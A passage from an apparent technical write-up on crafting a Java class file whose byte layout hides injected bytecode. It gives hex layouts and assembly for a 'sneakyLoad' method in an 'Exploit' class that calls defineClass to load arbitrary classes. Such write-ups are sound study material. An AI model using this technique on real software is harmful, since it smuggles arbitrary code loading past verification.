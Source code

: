 ```
attr1 (Code) = 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000
attr2 (wD) = AAAAAA
attr3 (wD) = BBBBBB
attr4 (wD) = CCCCCC
attr5 (wD) = DDDDDD DD 05 00
```

and the bytes for the `sneakyLoad` method as a whole are now

```
0001 [sneakyLoad_utf] 0007 0005 
0009 0000001C 0042 0500 00000010 2A 2B 2C 0557 03 2C BE 2D B6[defineClass_method] 0557 B0 00 0000 0000 
0005 00000003 AAAAAA
0005 00000003 BBBBBB
0005 00000003 CCCCCC
0005 00000006 DDDDDD DD 05 00
```

Now, we can use a similar process for the second method, although things are easier this time around, because we have more flexibility over the start due to being preceeded by the custom attribute at the end of the first method. In fact, we put a tag byte second to last _inside_ that custom attribute, meaning we can skip right over the first seven bytes of the second method (covering `access_flags`, `name_index`, `descriptor_index`, and the high byte of `attributes_count`.)

We're now at the low byte of the attribute count for `<init>`, which needs to be a tag byte, so we'll once again give it an attribute count of 5, just like the first method. In fact, we're now in the exact same position as we were in the first method, so the tag bytes after this will end up in the same position as well.

Next comes the name and attribute length for the `Code` attribute. Recall that our goal for the injected bytecode looks like this:

```
.method public sneakyLoad : (Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;
    .code stack 99 locals 99
        aload_0
        aload_1
        aload_2
        iconst_0
        aload_2
        arraylength
        aload_3
        invokevirtual Method Exploit defineClass (Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;
        areturn
    .end code
.end method

.method public <init> : ()V
    .code stack 99 locals 99
        aload_0
        invokespecial Method java/lang/ClassLoader <init> ()V
        return
    .end code
.end method
```
